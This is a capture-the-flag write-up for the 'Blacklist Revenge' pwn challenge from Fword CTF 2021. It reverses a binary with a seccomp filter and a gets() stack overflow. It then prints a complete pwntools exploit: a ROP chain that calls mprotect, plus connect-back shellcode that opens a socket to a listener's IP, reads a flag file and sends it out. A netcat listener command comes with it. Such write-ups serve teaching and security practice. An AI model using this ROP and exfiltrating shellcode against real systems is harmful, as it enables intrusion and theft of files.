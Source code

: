 ​**Blacklist Revenge**

was a pwn challenge from Fword CTF 2021.

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/blacklist.revenge/pics/title.png)

frightning isn't it ? probably the revenge of a bad coder...

so let's have a look to the binary with checksec first.

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/blacklist.revenge/pics/checksec.png)

ok not much protections..

let's reverse it so. The binary is basically three functions, main, init, and vuln

**the main function**

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/blacklist.revenge/pics/func_main.png)

not much inside, it calls init() then vuln()

**the init function**

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/blacklist.revenge/pics/func_init.png)

well basically it puts in place a seccomp filter.. let's dump the rules in place

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/blacklist.revenge/pics/seccomp.png)

well execve, execveat, fork, open are forbidden, so no shell execution.

so we will go for a reverse shell, and open can be replaced by the openat syscall which do the same (more or less)

let's have a look to the vuln function.

**the vuln function**

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/blacklist.revenge/pics/func_vuln.png)

ok well gets()..

gets read input as long as it does not receive a carriage return , and is a vulnerability by itself (I don't know how it's still in C library in 2021)

so we can overflow the stack, write a ROP, and do a reverse shell to ourself...

here is the python code that does that...

first set up a listener in another shell window:   nc -v -l -p PORT

then launch the python exploit, and wait for the shellcode to connect back to you, and send you back the flag

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/blacklist.revenge/pics/flag.gif)


```python3
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
context.update(arch="amd64", os="linux")

exe = context.binary = ELF('./blacklist')
rop = ROP(exe)

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
pop_rdx = rop.find_gadget(['pop rdx', 'ret'])[0]
pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
add_rax = 0x000000000047fb30  # add rax, 1 ; ret
syscall = rop.find_gadget(['syscall', 'ret'])[0]

# set up here the IP and PORT of yout listener waiting for the connection back from the shellcode
if args.LOCAL:
  IP, PORT = ('127.0.0.1', 12490)
else:
  IP, PORT = ('156.146.63.18', 43957)

# convertion of IP & PORT for the shellcode
def sockaddr():
    family = struct.pack('H', socket.AF_INET)
    portbytes = struct.pack('H', socket.htons(PORT))
    ipbytes = socket.inet_aton(IP)
    number = struct.unpack('Q', family + portbytes + ipbytes)
    number = -number[0]        #negate
    return hex((number + (1 << 64)) % (1 << 64))

# connect back shellcode , then openat(flag) and sendfile to socket 
shellc = asm ('''
socket:
        push 41
        pop rax
        cdq
        push 2
        pop rdi
        push 1
        pop rsi
	syscall
	mov rbp,rax
connect:
	xchg eax,edi
	mov al,42
        mov rcx,%s
        neg rcx
        push rcx
	mov rsi,rsp
        mov dl,16
        syscall

	xor rdi,rdi
	lea rsi,fname[rip]
	xor rdx,rdx
	xor r10,r10
	xor rax,rax
        mov ax,257
        syscall

	mov rdi,rbp
	mov rsi,rax
	mov rdx,0
	mov r10,100
        xor rax,rax
	mov al,40
	syscall
	push 60
	pop rax
	syscall
fname:
	.ascii "/home/fbi/flag.txt"

''' % (sockaddr()))


buff = 0x4e0c00

p = remote('40.71.72.198', 1236)

# ROP that does a mprotect on .bss to make it RWX, then read the shellcode in this buffer and execute it
payload = 'A'*0x48
payload += p64(pop_rdi) + p64(0x4e0000) + p64(pop_rsi) + p64(0x1000) + p64(pop_rdx) + p64(7) + p64(pop_rax) + p64(9) + p64(add_rax) + p64(syscall)
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(buff) + p64(pop_rdx) + p64(len(shellc)) + p64(pop_rax) + p64(0) + p64(syscall)
payload += p64(0x4e0c00)

p.sendline(payload)

# now we send our shellcode
p.sendline(shellc)
```

*nobodyisnobody still pwning things..*

